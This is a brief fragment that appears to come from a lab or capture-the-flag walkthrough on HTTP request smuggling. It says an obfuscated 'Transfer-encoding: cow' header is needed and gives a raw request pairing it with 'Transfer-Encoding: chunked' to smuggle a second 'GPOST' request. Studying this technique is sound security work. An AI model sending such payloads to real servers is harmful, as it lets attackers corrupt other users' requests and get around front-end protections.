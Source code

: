 ![img](media/d6d5eb86301cf7a58c73b27bbe97578d.png)

It is necessary to add the header "Transfer-encoding: cow":

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
POST / HTTP/1.1
...
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked
Transfer-encoding: cow

26
GPOST / HTTP/1.1
Content-Length: 10

0
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
